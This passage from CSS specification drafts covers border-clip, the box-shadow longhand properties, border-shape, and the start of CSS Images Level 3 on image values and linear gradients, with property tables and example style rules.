>   border-limit: corners 5px;
> }
> ```

> **Example:** The following example draws the curved part of the corner and all of the side except the middle 40%.
>
> ```css
> div {
>   border: solid;
>   border-radius: 5px;
>   border-limit: corners 30%;
> }
> ```

#### 5.2.  The `border-clip` properties {#css-borders-4:border-clip}

| Field | Value |
| --- | --- |
| Name: | **border-top-clip**, **border-right-clip**, **border-bottom-clip**, **border-left-clip**, **border-block-start-clip**, **border-block-end-clip**, **border-inline-start-clip**, **border-inline-end-clip** |
| [Value:](#css-values-4:value-defs) | none \| [ `<length-percentage [0,∞]>` \| `<flex>` ]+ |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to length of border-edge side |
| [Computed value:](#css-cascade-6:computed) | `none`, or a list consisting of absolute lengths, or percentages as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| [Logical property group:](#css-logical-1:logical-property-group) | `border-clip` |

These properties split their respective borders into parts along the border edge. The first part is visible, the second is invisible, the third part is visible, etc. Parts can be specified with lengths, percentages, or flexible lengths (expressed by the `fr` unit, as per [CSS3GRID]). The `none` value means that the border is not split, but shown normally.

The flow-relative longhands (`border-block-start-clip`, etc.) correspond to the physical longhands (`border-top-clip`, etc.) depending on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **border-block-clip**, **border-inline-clip** |
| [Value:](#css-values-4:value-defs) | `<'border-top-clip'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `border-block-start-clip` & `border-block-end-clip` and `border-inline-start-clip` & `border-inline-end-clip`, respectively.

| Field | Value |
| --- | --- |
| Name: | **border-clip** |
| [Value:](#css-values-4:value-defs) | `<'border-top-clip'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

`border-clip` is a shorthand property for the longhand properties, setting all four sides to the same value.

If the listed parts are shorter than the border, any remaining border is split proportionally between the specified flexible lengths. If there are no flexible lengths, the behavior is as if `1fr` had been specified at the end of the list.

If the listed parts are longer than the border, the specified parts will be shown in full until the end of the border. In this case, all flexible lengths will be zero.

For horizontal borders, parts are listed from left to right. For vertical borders, parts are listed from top to bottom.

The exact border parts are determined by laying out the specified border parts with all flexible lengths initially set to zero. Any remaining border is split proportionally between the flexible lengths specified.

> **Example:** ```
> border-clip: 10px 1fr 10px;
> ```

> **Example:** ```
> border-top-clip: 10px 1fr 10px;
> border-bottom-clip: 10px 1fr 10px;
> border-right-clip: 5px 1fr 5px;
> border-left-clip: 5px 1fr 5px;
> ```

> **Example:** By making the first part have zero length, the inverse border of the previous example can easily be created:
>
> ```
> border-top-clip: 0 10px 1fr 10px;
> border-bottom-clip: 0 10px 1fr 10px;
> border-right-clip: 0 5px 1fr 5px;
> border-left-clip: 0 5px 1fr 5px;
> ```

> **Example:** ```
> border: thin solid black;
> border-clip: 0 1fr; /* hide borders */
> border-top-clip: 10px 1fr 10px; /* make certain borders visible */
> border-bottom-clip: 10px 1fr 10px;
> ```

> **Example:** ```
> border-top: thin solid black;
> border-bottom: thin solid black;
> border-top-clip: 10px;
> border-bottom-clip: 10px;
> ```

> **Example:** ```
> border-top: thin solid black;
> border-clip: 10px;
> ```

> **Example:** This rendering:
>
> ```
> A sentence consists of words¹.
> ```
>
> ```
> ¹ Most often.
> ```
>
> can be achieved with this style sheet:
>
> ```
> @footnote {
>   border-top: thin solid black;
>   border-clip: 4em;
> }
> ```

> **Example:** ```
> border: 4px solid black;
> border-top-clip: 40px 20px 0 1fr 20px 20px 0 1fr 40px;
> ```
>
> In this example, there will be a visible 40px border part on each end of the top border. Inside the 40px border parts, there will be an invisible border part of at least 20px. Inside these invisible border parts, there will be visible border parts, each 20px long with 20px invisible border parts between them.
>
> The fragments are shown in red for illustrative purposes; they should not be visible in compliant UAs.

> **Example:** ```
> border: 4px solid black;
> border-top-clip: 3fr 10px 2fr 10px 1fr 10px 10px 10px 1fr 10px 2fr 10px 3fr;
> ```
>
> All but one of the visible border parts are represented as flexible lengths in this example. The length of these border parts will change when the width of the element changes. Here is one rendering where 1fr ends up being 10px:
>
> Here is another rendering where 1fr ends up being 30px:
>
> The fragments are shown in red for illustrative purposes; they should be black in compliant UAs.

### 6.  Drop Shadows {#css-borders-4:drop-shadows}

#### 6.1.  Coloring shadows: the `box-shadow-color` property {#css-borders-4:box-shadow-color}

| Field | Value |
| --- | --- |
| Name: | **box-shadow-color** |
| [Value:](#css-values-4:value-defs) | `<color>`# |
| [Initial:](#css-cascade-6:initial-values) | currentcolor |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a computed color |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The `box-shadow-color` property defines one or more drop shadow colors. The property accepts a comma-separated list of shadow colors.

See the section [“Layering, Layout, and Other Details”](#css-borders-4:shadow-layers) for how `box-shadow-color` interacts with other comma-separated drop shadow properties to form each drop shadow layer.

#### 6.2.  Offsetting shadows: the `box-shadow-offset` property {#css-borders-4:box-shadow-offset}

| Field | Value |
| --- | --- |
| Name: | **box-shadow-offset** |
| [Value:](#css-values-4:value-defs) | [ none \| `<length>`{1,2} ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item either `none` or a pair of offsets (horizontal and vertical) from the element‘s box |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value, treating `none` as `0 0` when interpolated with non-`none` values. |

The `box-shadow-offset` property defines one or more drop shadow offsets. The property accepts a comma-separated list. Each item in that list can either be the `none` value, which indicates no shadow, a pair of `<length>` values, which define the horizontal and vertical offsets, or a single <length> value, which sets both offsets to the same value.

****none****

: The shadow will not be rendered. The values of other box shadow properties corresponding to this shadow have no effect.

****1st `<length>`****

: Specifies the **horizontal offset** of the shadow. A positive value draws a shadow that is offset to the right of the box, a negative length to the left.

  If only one `<length>` value is specified, it sets both the horizontal and vertical offsets to that value.

****2nd `<length>`****

: Specifies the **vertical offset** of the shadow. A positive value offsets the shadow down, a negative one up.

See the section [“Layering, Layout, and Other Details”](#css-borders-4:shadow-layers) for how `box-shadow-offset` interacts with other comma-separated drop shadow properties to form each drop shadow layer.

#### 6.3.  Blurring shadows: the `box-shadow-blur` property {#css-borders-4:box-shadow-blur}

| Field | Value |
| --- | --- |
| Name: | **box-shadow-blur** |
| [Value:](#css-values-4:value-defs) | `<length [0,∞]>`# |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a `<length>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The `box-shadow-blur` property defines one or more blur radii for drop shadows. The property accepts a comma-separated list of `<length>` values.

Negative values are invalid. If the blur value is zero, the shadow’s edge is sharp. Otherwise, the larger the value, the more the shadow’s edge is blurred. See [Shadow Blurring](#css-borders-4:shadow-blur), below.

See the section [“Layering, Layout, and Other Details”](#css-borders-4:shadow-layers) for how `box-shadow-blur` interacts with other comma-separated drop shadow properties to form each drop shadow layer.

#### 6.4.  Spreading shadows: the `box-shadow-spread` property {#css-borders-4:box-shadow-spread}

| Field | Value |
| --- | --- |
| Name: | **box-shadow-spread** |
| [Value:](#css-values-4:value-defs) | `<length>`# |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a `<length>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The `box-shadow-spread` property defines one or more spread distances for drop shadows. The property accepts a comma-separated list of `<length>` values.

Positive values cause the shadow to expand in all directions by the specified radius. Negative values cause the shadow to contract. See [Shadow Shape](#css-borders-4:shadow-shape), below.

> **Note:** that for inner shadows, expanding the shadow (creating more shadow area) means contracting the shadow’s perimeter shape.

See the section [“Layering, Layout, and Other Details”](#css-borders-4:shadow-layers) for how `box-shadow-spread` interacts with other comma-separated drop shadow properties to form each drop shadow layer.

#### 6.5.  Spreading shadows: the `box-shadow-position` property {#css-borders-4:box-shadow-position}

| Field | Value |
| --- | --- |
| Name: | **box-shadow-position** |
| [Value:](#css-values-4:value-defs) | [ outset \| inset ]# |
| [Initial:](#css-cascade-6:initial-values) | outset |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item one of the keywords |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The `box-shadow-position` property defines one or more drop shadow positions. The property accepts a comma-separated list of `outset` and `inset` keywords.

****outset****

: Causes the drop shadow to be an **outer box-shadow**. That means, one that shadows the box onto the canvas, as if it were lifted above the canvas.

****inset****

: Causes the drop shadow to be an **inner box-shadow**. That means, one that shadows the canvas onto the box, as if the box were cut out of the canvas and shifted behind it.

See the section [“Layering, Layout, and Other Details”](#css-borders-4:shadow-layers) for how `box-shadow-position` interacts with other comma-separated drop shadow properties to form each drop shadow layer.

#### 6.6.  Drop Shadows Shorthand: the `box-shadow` property {#css-borders-4:box-shadow}

| Field | Value |
| --- | --- |
| Name: | **box-shadow** |
| [Value:](#css-values-4:value-defs) | `<spread-shadow>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |

The `box-shadow` property attaches one or more drop-shadows to the box. The property accepts a comma-separated list of shadows, ordered front to back.

Each shadow is given as a `<spread-shadow>`, outlining the `box-shadow-offset` defined by two `<length>` values, and optional values for the `box-shadow-blur`, `box-shadow-spread`, `box-shadow-color`, and `box-shadow-position`. Omitted lengths are `0`; omitted colors default to `transparent` when the specified offset is `none` and to `currentcolor` otherwise.

> **Note:** To avoid ambiguities in parsing the different `<length>` values, the offset has to be specified as two <length> values, in opposite to the `box-shadow-offset` property, where a single <length> value can be used to specify both offsets.

```css
<spread-shadow> = <'box-shadow-color'>? && [ [ none | <length>{2} ] [ <'box-shadow-blur'> <'box-shadow-spread'>? ]? ] && <'box-shadow-position'>?
```

> **Example:** The example below demonstrates the effects of spread and blur on the shadow:
>
> ```
> width: 100px; height: 100px;
> border: 12px solid blue; background-color: orange;
> border-top-left-radius: 60px 90px;
> border-bottom-right-radius: 60px 90px;
> box-shadow: 64px 64px 12px 40px rgba(0,0,0,0.4),
>             12px 12px 0px 8px rgba(0,0,0,0.4) inset;
> ```
>
> ![The sample code above would create a 100px×100px orange box with a 12px blue border, whose top right / bottom left corners are sharp and tob left / bottom right corners are elliptically curved. Two shadows are created: an inner one, which due to its offset and spread creates a 20px-wide band of darker orange along the top and left sides of the box (curving to match the rounded top left border shape); and an outer one, creating a 204px×204px gray duplicate of the shape seemingly behind the box, offset 24px down and 24px to the right of the box's top and left edges. Applying the 12px blur radius to the outer shadow creates a gradual shift from the shadow color to transparent along its edges which is visibly apparent for 24px centered along the edge of the shadow.](../css-borders-4/images/spread-blur.png)

##### 6.6.1.  Shadow Shape, Spread, and Knockout {#css-borders-4:shadow-shape}

An outer box-shadow casts a shadow as if the border-box of the element were opaque. Assuming a spread distance of zero, its perimeter has the exact same size and shape as the border box. The shadow is drawn outside the border edge only: it is clipped inside the border-box of the element.

An inner box-shadow casts a shadow as if everything outside the padding edge were opaque. Assuming a spread distance of zero, its perimeter has the exact same size and shape as the padding box. The shadow is drawn inside the padding edge only: it is clipped outside the padding box of the element.

If a spread distance is defined, the shadow perimeter defined above is expanded outward (for outer box-shadows) or contracted inward (for inner box-shadows) by outsetting (insetting, for inner shadows) the shadow’s straight edges by the spread distance (and flooring the resulting width/height at zero).

> **Example:** Below are some examples of an orange box with a blue border being given a drop shadow.
>
> | `border:5px solid blue; background-color:orange; width: 144px; height: 144px;` | `border-radius: 20px;` | `border-radius: 0;` |
> | --- | --- | --- |
> | `box-shadow: rgba(0,0,0,0.4) 10px 10px;` |  |  |
> | `box-shadow: rgba(0,0,0,0.4) 10px 10px inset` |  |  |
> | `box-shadow: rgba(0,0,0,0.4) 10px 10px 0 10px /* spread */` |  |  |
> | `box-shadow: rgba(0,0,0,0.4) 10px 10px 0 10px /* spread */ inset` |  |  |

To preserve the box’s shape when spread is applied, the corner radii of the shadow are also increased (decreased, for inner shadows) from the border-box (padding-box) radii by adding (subtracting) the spread distance (and flooring at zero). For outer shadows, the border radius is then adjusted, independently in each dimension, to preserve the sharpness of rounded corners.

The `border-image` does not affect the shape of the box-shadow.

##### 6.6.2.  Blurring Shadow Edges {#css-borders-4:shadow-blur}

A non-zero blur radius indicates that the resulting shadow should be blurred, such as by a Gaussian filter. The exact algorithm is not defined; however the resulting shadow must approximate (with each pixel being within 5% of its expected value) the image that would be generated by applying to the shadow a Gaussian blur with a standard deviation equal to half the blur radius.

> **Note:** This means for a long, straight shadow edge, the blur radius will create a visibly apparent color transition approximately the twice length of the blur radius that is perpendicular to and centered on the shadow’s edge, and that ranges from almost the full shadow color at the endpoint inside the shadow to almost fully transparent at the endpoint outside it.

#### 6.7.  Layering, Layout, and Other Details {#css-borders-4:shadow-layers}

Drop shadows are declared in the coordinated value list constructed from the `box-shadow-*` properties, which form a coordinating list property group with `box-shadow-offset` as the coordinating list base property. See [CSS Values 4 § A Coordinating List-Valued Properties](#css-values-4:linked-properties).

The shadow effects are applied front-to-back: the first shadow is on top and the others are layered behind. Shadows do not influence layout and may overlap (or be overlapped by) other boxes and text or their shadows. In terms of stacking contexts and the painting order, the *outer box-shadows* of an element are drawn immediately below the background of that element, and the *inner shadows* of an element are drawn immediately above the background of that element (below the borders and border image, if any).

Unless otherwise specified, drop shadows are only applied to the principal box. If the affected box has multiple fragments, the shadows are applied as specified in `box-decoration-break`.

Shadows do not trigger scrolling or increase the size of the scrollable area.

Outer shadows have no effect on internal table elements in the collapsing border model. If a shadow is defined for single border edge in the collapsing border model that has multiple border thicknesses (e.g. an outer shadow on a table where one row has thicker borders than the others, or an inner shadow on a rowspanning table cell that adjoins cells with different border thicknesses), the exact position and rendering of its shadows are undefined.

### 7.  Border Shaping {#css-borders-4:border-shape}

While `corner-shape` and `border-radius` allow some expressiveness to styling a border, they still work with the assumption that the border is rectangular.

The `border-shape` property augments these capabilities, by enabling the author to use any basic shape to specify the path of the border.

#### 7.1.  The `border-shape` property {#css-borders-4:border-shape-func}

| Field | Value |
| --- | --- |
| Name: | **border-shape** |
| [Value:](#css-values-4:value-defs) | none \| [ `<basic-shape>` `<geometry-box>`?]{1,2} |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see prose |
| [Computed value:](#css-cascade-6:computed) | list, each item a computed color |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The `border-shape` property defines custom shapes for element borders using one or two basic shape values.

#### 7.2.  Syntax and Usage Modes {#css-borders-4:border-shape-syntax}

The `border-shape` property accepts either a single `<basic-shape>` or two <basic-shape>s:

**Single `<basic-shape>` (Stroke mode)**

: The border is rendered as a stroke along the shape’s path, with the stroke width determined by the relevant side’s computed border width. This mode is useful for creating outlined shapes.

**Two `<basic-shape>`s (Fill mode)**

: The border is rendered as the area between the two paths. The first shape defines the outer boundary, and the second shape defines the inner boundary. This mode provides precise control over the border region’s geometry. The fill color of the border is the relevant side’s computed `border-color`.

#### 7.3.  Geometry Box References {#css-borders-4:border-shape-geometry-box}

When a `<geometry-box>` is not explicitly provided, the default reference box depends on the number of `<basic-shape>` values:

**Single `<basic-shape>`**

: The `<geometry-box>` defaults to the `half-border-box` value, which positions the stroke to match the default border behavior, with the border extending equally inward and outward from the shape path.

**Two `<basic-shape>`s**

: The first (outer) shape defaults to the border box, and the second (inner) shape defaults to the padding box. This allows the `border-width` properties to naturally affect the final shape.

#### 7.4.  Examples {#css-borders-4:border-shape-examples}

> **Example:** Creating a circular border using stroke mode:
>
> ```css
> .circular-button {
>   width: 100px;
>   height: 100px;
>   border: 5px solid blue;
>   border-shape: circle(50%);
> }
> ```
>
> This creates a circular border with a 5px stroke width.

> **Example:** Creating a diamond-shaped border using fill mode:
>
> ```css
> .diamond {
>   width: 200px;
>   height: 200px;
>   border: 10px solid crimson;
>   border-shape:
>     polygon(50% 0%, 100% 50%, 50% 100%, 0% 50%)
>     polygon(50% 10%, 90% 50%, 50% 90%, 10% 50%);
> }
> ```
>
> This creates a diamond border by defining outer and inner polygons.

> **Example:** Using a custom path shape:
>
> ```css
> .custom-shape {
>   border: 8px solid green;
>   border-shape: path('M 10,30 A 20,20 0,0,1 50,30 A 20,20 0,0,1 90,30 Q 90,60 50,90 Q 10,60 10,30 z');
> }
> ```
>
> This creates a heart-shaped border using an SVG path.

> **Example:** Combining `border-shape` with different border widths:
>
> ```css
> .fancy-box {
>   width: 100px;
>   height: 100px;
>   border-top-width: 10px;
>   border-right-width: 5px;
>   border-bottom-width: 10px;
>   border-left-width: 5px;
>   border-style: solid;
>   border-color: purple;
>   border-shape: ellipse(50% 40%);
> }
> ```
>
> The relevant side for border shape determines which border width is used for the stroke.

#### 7.5.  Interactions with Other Properties {#css-borders-4:border-shape-interactions}

##### 7.5.1.  Interaction with `border-radius` and `corner-shape` {#css-borders-4:border-shape-radius-interaction}

The `border-shape` property is not compatible with `border-radius` and `corner-shape`. When an element’s computed value of `border-shape` is not `none`, its `border-radius` is ignored, as if it was set to 0. `corner-shape` is implicitly ignored, as it can only work in tandem with `border-radius`.

> **Note:** Authors should use either `border-shape` for custom shapes or `border-radius`/`corner-shape` for rectangular boxes with styled corners, but not both simultaneously.

##### 7.5.2.  Interaction with `box-shadow` {#css-borders-4:border-shape-shadow-interaction}

An outer box-shadow is cast as if the shape defined by the outer path were opaque. An inner box-shadow is cast as if everything outside the shape defined by the inner path were opaque. For both inner and outer shadows, the shadow shape is expanded or contracted by the spread distance, blurred by the blur radius, and then clipped by the `border-shape`, adhering to the standard `box-shadow` painting rules.

> **Example:** ```css
> .shaped-shadow {
>   border-shape: circle(50%);
>   box-shadow: 0 4px 8px rgba(0, 0, 0, 0.3);
> }
> ```
>
> The shadow follows the circular shape rather than a rectangular box.

##### 7.5.3.  Interaction with Overflow and Clipping {#css-borders-4:border-shape-overflow-interaction}

The inner `border-shape` clips the overflow content of the element, in the same manner as `border-radius`, as described in [corner clipping](#css-borders-4:corner-clipping).

> **Issue:** how should this affect clipping replaced elements?

##### 7.5.4.  Interaction with Layout {#css-borders-4:border-shape-layout-interaction}

`border-shape` does not affect geometry or layout, which is still computed using the existing `border-width` properties. The shaped border is purely a visual effect.

`border-shape` does not affect the flow of content inside the box.

> **Note:** An author can use `border-shape` in tandem with `shape-inside` to create effects that both decorate the box and control its text flow.

#### 7.6.  Determining the Relevant Side {#css-borders-4:border-shape-relevant-side}

An element’s **relevant side for border shape** is the first side (in the order block-start, inline-start, block-end, and inline-end) that has a non-`none` border style, or block-start if they’re all `none`.

1. If *element*’s computed `border-block-start-style` is not `none`, then return block-start.
2. If *element*’s computed `border-inline-start-style` is not `none`, then return inline-start.
3. If *element*’s computed `border-block-end-style` is not `none`, then return block-end.
4. If *element*’s computed `border-inline-end-style` is not `none`, then return inline-end.
5. Return block-start.

> **Note:** This algorithm ensures consistent behavior when multiple border sides have different styles or widths. The first non-none border side (in logical order) determines the border characteristics used for the shaped border.

---

## CSS Images Module Level 3 {#css-images-3}

- **Shortname:** `css-images-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-images-3/](https://drafts.csswg.org/css-images-3/)
- **Published TR:** [https://www.w3.org/TR/css-images-3/](https://www.w3.org/TR/css-images-3/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-10-08

### 1. Introduction {#css-images-3:intro}

In CSS Levels 1 and 2, image values, such as those used in the `background-image` property, could only be given by a single URL value. This module introduces additional ways of representing 2D images, for example as [a gradient](#css-images-3:gradients).

This module also defines several properties for [manipulating raster images](#css-images-3:image-processing) and for [sizing](#css-images-3:the-object-fit) or [positioning](#css-images-3:the-object-position) replaced elements such as images within the box determined by the CSS layout algorithms. It also defines in a generic way CSS’s [sizing algorithm](#css-images-3:sizing) for images and other similar replaced elements.

*This subsection (above) is not normative.*

#### 1.1. Module Interactions {#css-images-3:placement}

This module defines and extends the `<image>` value type defined in [CSS-VALUES-3]. It also replaces the `<url>` type with <image> in the `background-image`, `cursor`, and `list-style-image` definitions in CSS1 and CSS2 and adds <image> as an alternative to <url> in the `content` property’s value. It is presumed that CSS specifications beyond CSS2.1 will use the <image> notation in place of <url> where 2D images are expected. (See e.g. [CSS3BG].)

None of the properties defined in this module, only `image-rendering` applies to `::first-line` and `::first-letter`.

#### 1.2. Value Definitions {#css-images-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2]. using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Level 2 Revision 1 [CSS2]. Other CSS modules may expand the definitions of these value types: for example [CSS-VALUES-3], when combined with this module, adds the `initial` keyword as a possible property value.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Image Values: the `<image>` type {#css-images-3:image-values}

The `<image>` value type denotes a 2D image. It can be a [url reference](#css-images-3:url-notation) or a [color gradient](#css-images-3:gradients). Its syntax is:

```css
<image> = <url> | <gradient>
```

An `<image>` can be used in many CSS properties, including the `background-image`, `list-style-image`, `cursor` properties [CSS2] (where it replaces the `<url>` component in the property’s value).

In some cases an image is invalid, such as a `<url>` pointing to a resource that is not a valid image format or that has failed to load. An **invalid image** is rendered as a solid-color `transparent` image with no natural dimensions. However, invalid images can trigger error-handling clauses in some contexts. For example, an invalid image in `list-style-image` it is treated as `none`, allowing the `list-style-type` to render in its place. [CSS2]

While an image is loading, is a **loading image**. Loading images are *not* invalid images, but have similar behavior: they are rendered as a solid-color `transparent` image with no natural dimensions, and may trigger fallback rendering in contexts that offer it, but must not trigger loading of fallback resources. Alternately, if a loading image happens to be replacing an already-loaded image (for example due to changes in the document or style sheet) and the UA is tracking this information, it may continue to render the already-loaded image in place of the loading image.

Partially-loaded images (whose natural dimensions are known, but whose image data is not fully loaded) may be either treated as loading images or as loaded images rendered with partial data. For example, a UA may render an interlaced GIF in place as soon as its first pass of pixel data has loaded or even as soon as the image header (which contains sizing data) has parsed and refresh the rendering as more data loads; or it may wait until the entire image has loaded before using it.

A **computed `<image>`** value is the specified value with any `<url>`s, `<color>`s, and `<length>`s computed.

#### 2.1. Image References: the `url()` notation {#css-images-3:url-notation}

The simplest way to indicate an image is to reference an image file by URL. This can be done with the `url()` notation, defined in [CSS-VALUES-3].

> **Example:** In the example below, a background image is specified with `url()`syntax:
>
> ```
> background-image: url(wavy.png);
> ```

If the UA cannot download, parse, or otherwise successfully display the contents at the URL as an image (i.e. if the image is not fully [fully decodable](https://html.spec.whatwg.org/multipage/webappapis.html#concept-imagebitmap-good)) it must be treated as an invalid image.

##### 2.1.1. Ambiguous Reference-or-Image URLs {#css-images-3:ambiguous-urls}

URLs are used in many contexts for many types of resources, and therefore can be interpreted in many ways. Usually the context the URL appears in makes it clear how to interpret the resource, but in some instances it can be ambiguous. For example, a `mask-image` `<url>` value pointing to an SVG file could be interpreted as a reference to an element in the file or as an `<image>`.

An **ambiguous image URL** is a `<url>` value that can be interpreted as either an `<image>` or an element reference. If an ambiguous image URL is a [fragment-only URL](#css-values-4:local-urls), then it must be treated as an element reference. Otherwise, if the ambiguous image URL has a fragment that references an element in the resource that is an appropriate type of element for the context in which the <url> appears (such as a `mask` element for the `mask-image` property), it is interpreted as an element reference. Otherwise, it is treated as an <image>.

Specs using the ambiguous image URL concept must define what elements are valid references for the URL, and any additional conditions that might apply.

> **Example:** For example, a reference like `mask-image: url(icon.svg#foo)` might be pointing to a `<mask id="foo">` element in the SVG document, *or* be pointing to a `<g id="foo">` element and depending on the `:target` pseudo-class to change how it renders as an image.
>
> When this occurs, the "icon.svg" file is loaded up and examined; if the #foo element is indeed a `mask`, the `url()` is treated as a reference to that element; otherwise, it’s interpreted as an image.

##### 2.1.2. Image Metadata {#css-images-3:url-metadata}

Images can contain metadata such as color space, resolution and orientation which specifies how to render the image. Some image formats are flexible in where this metadata can be placed in the file; however, if the metadata occurs *after* the actual image data, it harms the UA’s ability to “progressively decode” the image and display it as the image’s data streams in.

To reduce the impact of this issue:

- If the choice exists for a given image format, authors *must* produce their images so that such metadata occurs before the image data in the image. (Note: This is the default for most images already.)
- User agents *should* ignore any layout-impacting metadata (such as orientation or resolution) that occurs after the image data begins.

  If a user agent cannot ignore the metadata based its location in the image (for example, if the decoder being used does not report where in the image the metadata was located), it *must* use the metadata in all cases. (In particular, it is not valid to use the metadata only when the image is "small" and the entire image is downloaded quickly, but to ignore it if the image is large and the metadata isn’t downloaded until well after the image starts being displayed.)

### 3. Gradients {#css-images-3:gradients}

A gradient is an image that smoothly fades from one color to another. These are commonly used for subtle shading in background images, buttons, and many other things. The **gradient functions** described in this section allow an author to specify such an image in a terse syntax, so that the UA can generate the image automatically when rendering the page. The syntax of a `<gradient>` is:

```css
<gradient> =
  <linear-gradient()> | <repeating-linear-gradient()> |
  <radial-gradient()> | <repeating-radial-gradient()>
```

> **Example:** As with the other `<image>` types defined in this specification, gradients can be used in any property that accepts images. For example:
>
> - `background: linear-gradient(white, gray);`
> - `list-style-image: radial-gradient(circle, #006, #00a 90%, #0000af 100%, white 100%)`

A gradient is drawn into a box with the dimensions of the concrete object size, referred to as the **gradient box**. However, the gradient itself has no natural dimensions.

> **Example:** For example, if you use a gradient as a background, by default the gradient will draw into a gradient box the size of the element’s padding box. If `background-size` is explicitly set to a value such as `100px 200px`, then the gradient box will be 100px wide and 200px tall. Similarly, for a gradient used as a `list-style-image`, the box would be a 1em square, which is the default object size for that property.

Gradients are specified by defining the **starting point** and **ending point** of a **gradient line** (which, depending on the type of gradient, may geometrically be a line, or a ray, or a spiral), and then specifying colors at points along this line. The colors are smoothly blended to fill in the rest of the line, and then each type of gradient defines how to use the color of the gradient line to produce the actual gradient.

#### 3.1. Linear Gradients: the `linear-gradient()` notation {#css-images-3:linear-gradients}

A linear gradient is created by specifying a straight gradient line, and then several colors placed along that line. The image is constructed by creating an infinite canvas and painting it with lines perpendicular to the gradient line, with the color of the painted line being the color of the gradient line where the two intersect. This produces a smooth fade from each color to the next, progressing in the specified direction.

##### 3.1.1. linear-gradient() syntax {#css-images-3:linear-gradient-syntax}

The **linear-gradient()** notation specifies a linear gradient in CSS. Its syntax is as follows:

```css
<linear-gradient()> = linear-gradient( [ <linear-gradient-syntax> ] )

<linear-gradient-syntax> = [ <angle> | <zero> | to <side-or-corner> ]? , <color-stop-list>

<side-or-corner> = [left | right] || [top | bottom]
```

The first argument to the function specifies the gradient line, which gives the gradient a direction and determines how color-stops are positioned. It may be omitted; if so, it defaults to `to bottom`.

The gradient line’s direction may be specified in two ways:

**using `<angle>`**

: For the purpose of this argument, `0deg` points upward, and positive angles represent clockwise rotation, so `90deg` point toward the right.

  The unit identifier may be omitted if the `<angle>` is zero.

**using keywords**

: If the argument is `to top`, `to right`, `to bottom`, or `to left`, the angle of the gradient line is `0deg`, `90deg`, `180deg`, or `270deg`, respectively.

  If the argument instead specifies a corner of the box such as `to top left`, the gradient line must be angled such that it points into the same quadrant as the specified corner, and is perpendicular to a line intersecting the two neighboring corners of the gradient box. This causes a color-stop at 50% to intersect the two neighboring corners (see [example](#css-images-3:corner-gradient-example)).

